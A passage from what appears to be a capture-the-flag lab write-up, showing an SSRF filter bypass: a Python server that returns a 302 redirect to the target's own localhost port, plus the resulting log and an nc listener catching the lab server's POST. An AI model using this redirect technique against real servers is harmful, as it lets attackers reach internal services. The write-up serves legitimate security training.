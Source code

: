 ## 302 Redirect the SSRF

Let's see what happens if we make our server responds 302 on GET to our local port 8000 and send the server back to his own port 3000, since that's what we're interested in. Since the request still comes from the server this should work.
```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 8000), Redirect).serve_forever()
```

![hook_allowed.png](hook_redirect.png)
```bash
python3 redirect.py 'http://127.0.0.1:3000'
10.10.11.176 - - [17/Sep/2022 17:40:47] "GET / HTTP/1.0" 302 -
```
```bash
nc -lvnp 9000                                                                   1 ⨯
listening on [any] 9000 ...
connect to [10.10.14.166] from (UNKNOWN) [10.10.11.176] 41128
POST / HTTP/1.1
Host: 10.10.14.166:9000
Accept: */*
Content-type: application/json
Content-Length: 7666
Expect: 100-continue

```